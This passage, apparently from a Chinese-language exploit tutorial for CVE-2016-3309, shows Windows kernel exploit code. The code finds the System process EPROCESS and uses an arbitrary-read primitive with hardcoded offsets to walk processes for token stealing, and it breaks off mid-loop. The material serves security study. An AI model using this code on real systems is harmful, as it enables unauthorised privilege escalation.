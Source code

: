 ```
    ulOSBase = GetNTBase();
    if (ulOSBase == 0)
    {
        goto exit;
    }

    hModel = LoadLibrary("ntoskrnl.exe");
    if (!hModel)
    {
        ShowError("LoadLibrary", GetLastError());
        goto exit;
    }

    ulAddress = (ULONG64)GetProcAddress(hModel, "PsInitialSystemProcess");
    if (!ulAddress)
    {
        ShowError("GetProcAddress", GetLastError());
        goto exit;
    }

    ulRes = ulAddress - (ULONG64)hModel + ulOSBase;

exit:
    return ulRes;
}
```  
  
  
有了System进程的EPROCESS地址，就可以通过上面实现的任意地址读写的功能来实现Token的替换，相应代码如下：  
```
BOOL EnablePrivilege_CVE_2016_3309()
{
    BOOL bRet = TRUE;
    CONST DWORD dwTokenOffset = 0x358, dwLinkOffset = 0x2F0, dwPIDOffset = 0x2E8;
    ULONG64 ulSystemToken = 0, ulEprocess = 0;

    ulEprocess = GetSystemEprocess_CVE_2016_3309();
    if (!ulEprocess)
    {
        bRet = FALSE;
        goto exit;
    }

    if (!BitMapRead_CVE_2016_3309(ulEprocess + dwTokenOffset,
        (PBYTE)&ulSystemToken,
        sizeof(ULONG64)))
    {
        bRet = FALSE;
        goto exit;
    }

    ULONG64 ulCurPID = GetCurrentProcessId(), ulPID = 0;

    do {
        if (!BitMapRead_CVE_2016_3309(ulEprocess + dwLinkOffset,
            (PBYTE)&ulEprocess, sizeof(ULONG64)))
        {
            bRet = FALSE;
            goto exit;
        }

        ulEprocess = ulEprocess - dwLinkOffset;

        if (!BitMapRead_CVE_2016_3309(ulEprocess + dwPIDOffset,
```